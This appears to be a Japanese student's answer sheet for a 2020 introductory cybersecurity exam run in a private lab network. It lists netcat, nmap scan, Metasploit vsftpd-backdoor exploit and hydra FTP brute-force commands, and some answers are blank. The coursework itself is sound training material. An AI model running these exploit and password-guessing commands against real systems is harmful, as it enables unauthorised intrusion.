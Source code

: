 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
nc 192.168.33.5 5555

```
### クライアント側コマンド

```sh
nc -lvp 5555

```

## 問2 [Password Crack]

```md
test:test

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
nmap -sP 192.168.33.0/24

```
### 2. version scan

```sh
 nmap -sV -O -p- 192.168.33.5

```

## 問4 [Metasploit Framework]

```sh
1.msfconsole
2.search vsftpd
3.use exploit/unix/ftp/vsftpd_234_backdoor
4.set RHOST 192.168.33.5
5.show options
6.exploit

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
 hydra -L user.list -P passwd.list -t 8 192.168.33.5 ftp

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
wireshark

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
19999

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
70点

```

## 問9 [講義の感想]

```md
vagrant (init up destory halt)
nc
nmap
msfconsole
john
hydra

初めてやる頃は、自分ができるか心配でしたがどんどん回数を重ねていく
うちにできることが増えていって自信がつきました。

```
